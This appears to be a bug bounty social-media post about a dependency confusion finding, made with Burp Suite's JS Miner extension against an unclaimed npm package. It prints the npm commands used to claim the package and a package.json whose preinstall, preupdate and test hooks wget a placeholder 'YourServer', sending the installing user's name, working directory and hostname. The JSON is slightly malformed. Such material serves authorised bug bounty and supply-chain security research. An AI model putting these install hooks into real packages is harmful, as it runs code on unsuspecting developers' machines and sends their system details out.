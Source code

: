 ⚡Dependency Confusion via JS Miner

@GodfatherOrwa just landed a clean P1 by leveraging JS Miner in Burp Suite 🔥

Here’s how it went down 👇

🧩 After crawling all endpoints, he went to:
Target ➝ Extensions ➝ JS Miner ➝ Run All Passive Scans

💥 That’s when he spotted: [JS Miner] Dependency Confusion
The vulnerable package was unclaimed on NPM 👀

📦 Next steps he followed:

```
    npm login
    mkdir <package-name> && cd <package-name>
    npm init -y
    npm publish --access public

```

package.json

```
{
  "name": "====>Replace This wite The Package NAME",
  "version": "10.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "wget --quiet http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" ",
    "preinstall": "wget --quiet \"http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" ",
    "preupdate": "wget --quiet \"http://YourServer/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)\" "
  },
  "author": "orwa",
  "license": "ISC"
  }
}
```

After claiming the package, he injected an RCE payload via package.json
🧪 Full POC: [https://github.com/orwagodfather/NPM-RCE](https://github.com/orwagodfather/NPM-RCE)

💣 Result? A solid P1 vulnerability and a perfect example of how effective Dependency Confusion still is.

Props to @GodfatherOrwa for consistently dropping fire techniques 🔥
